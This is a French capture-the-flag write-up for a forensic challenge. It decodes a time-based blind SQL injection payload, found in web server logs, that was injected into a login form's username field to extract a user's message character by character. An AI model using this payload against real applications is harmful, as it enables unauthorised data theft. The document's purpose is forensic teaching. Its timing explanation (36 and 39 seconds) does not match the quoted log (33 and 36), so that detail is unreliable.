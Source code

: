# HelpMe

Auteur : ShockedPlot7560
Type : Forensic/Dev
***Difficulté : Débutant***

### Enoncé : 

On vient de poutrer votre application web. En plus des dégâts faits à votre infrastructure, vous remarquez quelque chose d'étrange dans vos logs.

Sauriez-vous retrouver les données que l'attaquant a réussies à exfiltrer ?

## Solution

Dans ce challenge, une étape d'observation était nécessaire pour comprendre la requête SQL qui était injecté:
```
'%20or%20if((select%20SUBSTRING(message,33,1)%20from%20messages%20where%20user_id=1%20limit%200,1)='V',%20sleep(3),%20null)--%20
// url décodé
' or if((select SUBSTRING(message,33,1) from messages where user_id=1 limit 0,1)='V', sleep(3), null)-- 
```
On pouvait donc voir que la requête venait tenter caractère par caractère le contenu du message de l'utilisateur 1. Si le caractère était égal à celui donné, le serveur attendait 3 secondes avant de répondre. Ainsi, en brute forcant, on pouvait récupérer le contenu du message caractère par caractère.  

En prenant un moment au hasard où le caractère venait d'être extrait on a : 
```
[Mon Dec 11 18:17:33 2023] 172.29.0.1:52064 Accepted
[Mon Dec 11 18:17:36 2023] 172.29.0.1:52064 [200]: GET /login.php?username='%20or%20if((select%20SUBSTRING(message,19,1)%20from%20messages%20where%20user_id=1%20limit%200,1)='F',%20sleep(3),%20null)--%20&password=
[Mon Dec 11 18:17:36 2023] 172.29.0.1:52064 Closing
```

Ainsi, on peut voir qu'à 36 secondes, le serveur accepte une connexion venant de 172.29.0.1 (le début donc de la requête). Puis, à 39 secondes, le serveur répond avec un code 200. 3 secondes se sont écoulés, l'attaquant peut donc en déduire que le 19e caractère est égal à `F`.